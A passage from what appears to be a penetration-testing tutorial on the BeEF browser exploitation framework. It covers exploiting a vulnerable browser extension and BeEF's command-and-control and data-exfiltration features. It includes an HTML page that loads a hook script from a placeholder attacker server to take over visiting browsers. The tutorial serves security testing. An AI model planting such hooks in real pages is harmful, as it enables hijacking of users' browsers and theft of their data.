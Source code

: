 **Example: Exploiting a Vulnerable Browser Extension**

1. Set up BeEF on your testing machine and ensure it's running.
2. Create a custom BeEF module targeting the specific vulnerability in the extension.
3. Craft a malicious web page that triggers the vulnerable extension and hooks the browser into the BeEF framework.
4. Use BeEF's command interface to execute various payloads through the compromised extension.
5. Document the results, including the types of actions possible and the potential impact on user security.

This process not only demonstrates the vulnerability but also provides valuable insights into how attackers might exploit such weaknesses in the wild.

### 2. Command and Control (C2) System

BeEF's command and control system is at the heart of its functionality, allowing testers to:

- Establish persistent connections with compromised browsers
- Issue commands and receive data from hooked browsers
- Coordinate and manage multiple compromised browsers simultaneously

The C2 system in BeEF operates through a web-based interface, making it accessible and user-friendly for testers. Here's a brief overview of how the C2 system works:

- **Hook Injection**: BeEF injects a small JavaScript file (the "hook") into the target web page.
- **Persistent Connection**: The hook establishes a WebSocket connection back to the BeEF server.
- **Command Execution**: Testers can send commands through the BeEF interface, which are then executed by the hooked browser.
- **Data Exfiltration**: Results and gathered information are sent back to the BeEF server for analysis.

**Example: Setting Up a Basic C2 Operation with BeEF**

1. Start the BeEF server:
   ```sh
   ./beef
   ```
2. Access the BeEF web interface (usually at [http://127.0.0.1:3000/ui/panel](http://127.0.0.1:3000/ui/panel)).
3. Create a simple HTML page with the BeEF hook:
   ```html
   <html>
     <head>
       <script src="http://your-beef-server:3000/hook.js"></script>
     </head>
     <body>
       <h1>Welcome to the test page!</h1>
     </body>
   </html>
   ```
4. When a victim browser loads this page, it will appear in the BeEF control panel.
5. Select the hooked browser in the BeEF interface and explore available commands, such as gathering system information or capturing screenshots.

### 3. Cross-Site Scripting (XSS) Testing
